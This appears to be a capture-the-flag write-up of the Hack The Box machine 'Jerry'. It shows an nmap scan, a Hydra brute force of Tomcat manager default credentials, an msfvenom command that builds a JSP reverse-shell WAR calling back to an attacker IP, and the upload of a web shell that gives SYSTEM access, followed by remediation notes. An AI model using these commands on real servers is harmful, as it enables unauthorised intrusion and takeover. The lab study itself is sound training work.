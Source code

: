+++
draft = false
date = 2020-06-25T16:04:02+01:00
title = "Jerry"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 6
+++


# Machine info

- OS : Windows
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.95


# Mind Map
![Jerry_MindMap](/images/htb/jerry_mindmap.png)


# Reconnaisance

I start with the usual initial scan to check for useful open ports:

{{< highlight html >}}
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
{{< /highlight >}}

**Port 8080** appears to be the only one open and running a web server.

# Enumeration

Visiting the resource on `10.10.10.95:8080` I am presented with an Apache Tomcat/7.0.88 Control Panel.

![Jerry_Tomcat](/images/htb/jerry_tomcat.png)

***What is Apache Tomcat?***

>Apache Tomcat (sometimes simply "Tomcat") is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. Tomcat provides a "pure Java" HTTP web server environment in which Java code can run.

>Tomcat is developed and maintained by an open community of developers under the auspices of the Apache Software Foundation, released under the Apache License 2.0 license.

Entering the control panel I could be able to upload a custom malicious application to the server acting as a reverse shell. I know that in the case of Tomcat I will need a **.war** file.

>In software engineering, a WAR file (Web Application Resource or Web application Archive) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.

# Exploitation

So let's try to find a way in to Manager App! In order to bruteforce the authentication, I decide to go with Hydra:

{{< highlight html >}}
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
{{< /highlight >}}

Where:
- `-C` is the file containing login and passwords to attempt, in the format "login:pass"
- `http-get` is the service I want to crack

Hydra is able to find out the credentials!

{{< highlight html >}}
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
{{< /highlight >}}

I can now access the control panel!


![Jerry_Tomcat](/images/htb/jerry_tomcat_manageapp.png)

**Note**: The web server is running a 64bit version of Windows Server 2012 R2.

![Jerry_Tomcat](/images/htb/jerry_server_info.png)

I have two options:
1. create a malicious `.war` file containing a reverse shell to my machine using `msfvenom`
2. upload an existing one located under `/usr/share/laudanum/jsp/cmd.war`

In case of option **1**, I can create a reverse shell with `msfvenom` like:

{{< highlight html >}}
msfvenom -p java/jsp_shell_reverse_tcp  LHOST=10.10.14.19 LPORT=4456 -f war > rev_shell.war
Payload size: 1088 bytes
{{< /highlight >}}

I go with option **2**, and after uploading the cmd.war file and visiting `10.10.10.96:8080/cmd/cmd.jsp` I am presented with an interactive reverse shell!

![Jerry_Shell](/images/htb/jerry_shell.png)

Entering the `whoami` command, I can see I'm already **nt authority\system**, so there is no need to proceed with privilege escalation!


## Lessons learned and remediations

- There is an exposed port running Apache Tomcat with default credentials. The administrator should have used
a password that is difficult to crack.
- Tomcat should have been running as a user account and not with SYSTEM privilege.
